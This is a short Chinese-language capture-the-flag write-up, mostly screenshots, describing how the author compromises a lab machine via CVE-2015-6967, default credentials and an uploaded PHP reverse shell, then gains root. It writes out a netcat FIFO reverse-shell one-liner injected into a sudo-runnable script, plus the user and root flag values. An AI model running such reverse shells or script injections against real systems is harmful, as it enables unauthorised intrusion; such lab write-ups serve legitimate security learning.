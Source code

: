 但因為他好像是用matasploit 所以我改用另一個

https://github.com/dix0nym/CVE-2015-6967/blob/main/README.md

痾他密碼好像是預設?
所以我乾脆就直接輸入了

![image](https://hackmd.io/_uploads/HJGS7NyzA.png)

我發現plugins 好像可以上傳東西

![image](https://hackmd.io/_uploads/rypsDN1f0.png)

所以我要上傳 php-reverse-shell

![image](https://hackmd.io/_uploads/r1E5_N1M0.png)

會在這裡找到他

![image](https://hackmd.io/_uploads/SJyAOEyf0.png)

### user.txt

![image](https://hackmd.io/_uploads/ryhwKVyGA.png)

f1c5514dde67d030c0796debd41b32b6

![image](https://hackmd.io/_uploads/r1TaKEJMC.png)

### root.txt

剛剛有看到一個zip
解壓縮之後會有一個monitor.sh
內容看起來是類似清暫存的
我覺得應該可以塞東西進去

而且sudo不用密碼

![image](https://hackmd.io/_uploads/SJh09V1GA.png)

所以我要用tee 把 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 塞進去

開監聽之後sudo 執行他(退出去才有權限)

![image](https://hackmd.io/_uploads/Byu42VJMR.png)

root

![image](https://hackmd.io/_uploads/BJx_hEkG0.png)

3f3642ec725c000421bf7530a47e0904

![image](https://hackmd.io/_uploads/rJHK3V1GR.png)

---
